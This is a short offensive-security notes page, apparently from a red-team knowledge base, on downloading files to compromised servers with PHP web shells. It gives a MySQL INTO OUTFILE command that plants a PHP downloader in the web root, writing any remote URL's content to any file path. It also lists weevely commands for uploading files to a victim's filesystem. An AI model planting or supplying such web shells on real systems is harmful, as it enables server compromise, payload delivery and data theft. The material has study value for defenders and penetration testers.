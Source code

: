 ```yaml
---
author(s):
  - Userware
tags:
  - webshell
  - interactive-shell
  - file-transfer-and-data-exfiltration
  - weevely
---
```

# Download Files

## PHP

### Databases

#### MySQL

```sql
SELECT '<?php fwrite(fopen($_GET[f], \'w\'), file_get_contents($_GET[u])); ?>' INTO OUTFILE '/var/www/html/downloader.php'
```

### Weevely

```
weevely> :file_upload                  Upload file to remote filesystem.
weevely> :file_upload2web              Upload file automatically to a web folder and get corresponding URL.
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures Phases/C - Initial Access/0x01 - Weaponization/Malware Development/Payload Execution/Webshell/PHP]]